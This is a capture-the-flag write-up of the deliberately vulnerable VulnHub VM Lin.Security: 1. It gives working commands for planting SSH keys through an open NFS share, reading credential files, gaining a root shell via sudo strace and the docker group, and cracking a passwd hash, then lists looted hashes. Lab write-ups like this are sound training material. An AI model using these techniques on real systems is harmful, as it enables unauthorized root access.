


# [[VulnHub] Lin.Security: 1](https://www.vulnhub.com/entry/linsecurity-1,244/)

**Date**: 10/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_nfs_rw`](https://github.com/7h3rAm/writeups#exploit_nfs_rw), [`exploit_ssh_authorizedkeys`](https://github.com/7h3rAm/writeups#exploit_ssh_authorizedkeys), [`privesc_strace_setuid`](https://github.com/7h3rAm/writeups#privesc_strace_setuid), [`privesc_docker_group`](https://github.com/7h3rAm/writeups#privesc_docker_group)  

## Overview
This is a writeup for VulnHub VM [Lin.Security: 1](https://www.vulnhub.com/entry/linsecurity-1,244/). Here's an overview of the `enumeration → exploitation → privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Oct  9 19:28:13 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/xml/_quick_tcp_nmap.xml 192.168.92.186
Nmap scan report for 192.168.92.186
Host is up, received arp-response (0.0024s latency).
Scanned at 2019-10-09 19:28:19 PDT for 8s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6IO+zWqbr1ygGx4JPZUC/turDfHidMFqfTWv8glTZnpLnY6ZTTdQ8/HfSgAtwXSdOvSy6QwzSFxamx+TlV0mdrc8oJrcltmA31M0JwrGvCIQspLPuPDNgG3TwJitEb+HyS+PX0/hIIxnPz2LDl6E4/o0Va6HjA4p7qFKCt4PESN47lRvwMBiQjCucTf08yy9VZ7k2JJOvK9X/ebBz2OF3tJJHN3wiezMTIi7xAYSaT8XBHjf/3awUVqASEowf2gd14V8MM6ASwMVhcFGt0/DKxdXuiddphI67Z+3HCR3JsHgKl3nvhSmgTf5ZHt3HPgoe5XmL6LDjmkUGIdNrBya9
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEGq7yVBMw51IUPgAkmf4d8s6nVCPvcgXngPgU6tbTbFeFMUy1Do5mJziIp3eyLrFgZlTkfhjRdYhBoX/ZkM36Q=
|   256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICl+R8URLpkAb92x1+AMcdkp8qCHXphnD8fI+ObeoNs/
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      37211/tcp  mountd
|   100005  1,2,3      37678/udp  mountd
|   100021  1,3,4      39735/tcp  nlockmgr
|   100021  1,3,4      43597/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:07:84:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 19:28:27 2019 -- 1 IP address (1 host up) scanned in 14.69 seconds

```

2\. We find that there is an open NFS share for the `/home/peter` directory on the target system:  
``` {.python .numberLines}
showmount -e 192.168.92.186

```

  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp     |  ssh       |  OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
111/tcp    |  rpcbind   |  2-4 (RPC #100000)
2049/tcp   |  nfs_acl   |  3 (RPC #100227)
37211/tcp  |  mountd    |  1-3 (RPC #100005)
39735/tcp  |  nlockmgr  |  1-4 (RPC #100021)
53127/tcp  |  mountd    |  1-3 (RPC #100005)
57997/tcp  |  mountd    |  1-3 (RPC #100005)
```
#### Users
``` {.python .numberLines}
ssh: peter
```

\newpage
## Phase #2: Exploitation
1\. We mount this share locally and copy our SSH public key to the newly created `.ssh` directory within mounted NFS share:  
``` {.python .numberLines}
cp ~/.ssh/id_rsa.pub ./authorized_keys
mkdir share
mount 192.168.92.186:/home/peter share/ -o vers=3
useradd -u 1001 peter
su peter
cd share
mkdir .ssh
cp ../authorized_keys .ssh/

```

  

  

  

2\. Now we can SSH into the target system as user `peter`:  
``` {.python .numberLines}
ssh peter@192.168.92.186

```

  

3\. We find an interesting file `.secret` under user `susan`'s home directory. This file has the password in cleartext which we can use to login:  
``` {.python .numberLines}
cat /home/susan/.secret
su susan

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
peter@linsecurity> id
uid=1001(peter) gid=1005(peter) groups=1005(peter),999(docker)
peter@linsecurity>  
peter@linsecurity> uname
Linux linsecurity 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
peter@linsecurity>  
peter@linsecurity> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.186  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe07:84f0  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:07:84:f0  txqueuelen 1000  (Ethernet)
        RX packets 124781  bytes 75456965 (75.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 99458  bytes 6136016 (6.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
peter@linsecurity>  
peter@linsecurity> users
bob
peter
susan
```

\newpage
## Phase #3: Privilege Escalation
1\. We find that the user `peter` can run `strace` with elevated privileges. This gives us a option to elevate privileges by tracing a program that spawns a shell:  
``` {.python .numberLines}
nano privesc.c
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
  }
gcc -o privesc privesc.c
sudo strace ./privesc

```

  

  

2\. We can also elevate privileges using `docker` since the user `peter` is already a member of group `docker`:  
``` {.python .numberLines}
mkdir docker-test
cd docker-test
cat > Dockerfile
  FROM debian:wheezy
  ENV WORKDIR /stuff
  RUN mkdir -p $WORKDIR
  VOLUME [ $WORKDIR ]
  WORKDIR $WORKDIR
  << EOF
docker build -t my-docker-image .
docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh

```

  

  

  

3\. We find that the user `insecurity`'s (unsalted) password hash is stored within `/etc/passwd`. We run a bruteforce on this hash to get the cleartext password. Since this user has same uid/gid as user `root`, we get elevated access on the target system:  
``` {.python .numberLines}
cat /etc/passwd
echo "insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh" >passwd
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd
  P@ssw0rd         (insecurity)
ssh insecurity@192.168.92.186

```

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXD........................
bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.........................
peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbT........................
susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX........................
```
### Credentials
``` {.python .numberLines}
ssh: bob/secr.., susan/MySuperS3cretV....., insecurity/P@ss....
```

## References
[+] <https://www.vulnhub.com/entry/linsecurity-1,244/>  
[+] <https://in.security/lin-security-walkthrough/>  
[+] <https://hackso.me/lin.security-1-walkthrough/>  
